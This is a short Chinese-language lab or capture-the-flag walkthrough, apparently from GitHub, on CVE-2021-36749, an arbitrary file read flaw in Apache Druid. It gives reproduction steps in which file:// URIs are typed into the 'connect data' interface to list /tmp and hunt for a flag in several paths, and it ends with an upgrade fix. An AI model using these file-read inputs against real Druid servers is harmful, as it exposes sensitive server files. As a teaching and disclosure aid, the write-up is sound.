



# Apache Druid任意文件读取漏洞（CVE-2021-36749）
## 漏洞描述
- CVE-2021-36749 是 Apache Druid 中的一个任意文件读取漏洞，允许攻击者通过构造特定请求，读取服务器上的任意文件，从而可能导致敏感信息泄露。
- 影响版本：Apache Druid <= 0.21.1

## 复现步骤
端口转发后，进入https界面后点击connect data


利用漏洞特性输入下面指令,可以发现目录结构和敏感文件
```
file:///tmp
```


依次输入下面指令进行文件结构的遍历尝试，发现flag位于/tmp目录下，至此实验完成
```
file:///flag
file:///root/flag
file:///home/druid/flag
file:///opt/flag
file:///tmp/flag
file:///flag.txt
file:///root/flag.txt
```


## 漏洞修复
升级至Apache Druid 0.22.0及以上版本
